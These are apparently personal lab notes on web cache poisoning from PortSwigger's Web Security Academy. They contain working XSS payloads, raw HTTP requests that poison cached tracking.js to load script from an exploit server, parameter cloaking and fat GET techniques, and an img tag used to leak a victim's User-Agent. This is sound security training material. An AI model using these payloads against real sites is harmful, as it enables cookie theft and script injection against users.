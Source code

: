 # Web Cache Poisoning

## Unkeyed header
- Use param miner extension to find headers
  - Found that x-Forwarded-Host is reflected in the response
- Used this payload to exploit: `X-Forwarded-Host: "></script><script>alert(document.cookie)</script><script>`

## Unkeyed cookie
- Cookies are not in cache key 
  - Cache key = predefined request components
- Param miner found fehost cookie
- Used this payload to exploit: `Cookie: fehost=x")</script><script>alert(1)</script><script>`

## Multiple headers
- Param miner found X-Forwarded-Proto header
- If you use this it adds a redirect to a url that includes the web dir in the original request
- The website also allowed for X-Forwarded-Host which would change the link
- I sent this request to tracking.js:
```http
GET /resources/js/tracking.js HTTP/2
Host: 0a5200060335f34b817d667700130056.web-security-academy.net
Cookie: session=CMTcrvpZEooQ7J39QXbx1HYOk8OlhNwC
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a5200060335f34b817d667700130056.web-security-academy.net/?%3Cscript%3Ealert(1)%3C/script%3E
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0a7a00fd0366f3b28166658101d300c4.exploit-server.net
```
- and got this response:
```http
HTTP/2 302 Found
Location: https://exploit-0a7a00fd0366f3b28166658101d300c4.exploit-server.net/resources/js/tracking.js
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 3
X-Cache: hit
Content-Length: 0
```
- The X-Cache: hit means that the new link was stored
- The payload on the exploit server was: `alert(document.cookie)`

## Unknown header
- Param miner found X-Host header
  - This edited the tracking.js link
  - Changed exploit server to: `/resources/js/tracking.js`
  - added the payload `alert(document.cookie)`
- This works for me, but no solve
- Found that the Vary header in the response is set to User-Agent
- The comments allowed for HTML so used: `<img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />`
  - This made the victim interact with the server
  - The victims User-Agent was in the access log
- Changed the User-Agent in Burp and resent the request

## Unkeyed query string
- You have to add the Origin header to test since it was a cache buster
  - You need a cache buster when you constantly get hits and no misses
- This solves the lab: `/?test=x'/><script>alert(1)</script><`

## Unkeyed query parameter
- utm parameter was Unkeyed
- This is the payload: `/?utm_content='/><script>alert(1)</script><`
- Again Origin was cache buster
- Take off Origin and click send until it appears

## Parameter cloaking
- utm parameter was allowed 
- The geolocate.js was using callback
- Used this to cloak the change in callback: `/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)`
  - Cloaking was needed to avoid the cache keys

## fat GET
- Found callback in geolocate.js
- Used this request to get the alert
```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: 0a26003f0429f29e803576e000d8002b.web-security-academy.net
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a26003f0429f29e803576e000d8002b.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Content-Length: 17

callback=alert(1)
```

## URL Normalization
- 404 error reflected url
- You had to poison and immediately send the url to the victim
- This was the url: `https://0a44009203ac0bc18de49d8000e1004b.web-security-academy.net/x</p><script>alert(1)</script><p>`
